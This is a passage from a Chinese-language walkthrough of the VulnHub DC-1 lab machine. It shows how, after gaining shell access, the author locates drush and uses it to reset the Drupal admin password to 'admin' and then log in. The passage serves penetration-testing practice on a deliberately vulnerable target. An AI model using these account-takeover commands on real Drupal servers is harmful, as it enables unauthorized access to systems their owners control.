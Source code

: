 ok 登上去了

**通过 drush 修改 admin 用户的密码**

Drush是一个 shell 接口，用于从云服务器命令行管理 Drupal。

现在服务器上找找 drush,没有的话还得给他传一个
```
find / -name drush
/var/www/sites/all/modules/views/drush
/var/www/sites/all/modules/ctools/drush
/usr/local/bin/drush
```

然后直接修改 admin 密码
```
/usr/local/bin/drush user-password admin --password="admin"
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC1/18.png)

测试一下,ok 登上去了

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC1/19.png)
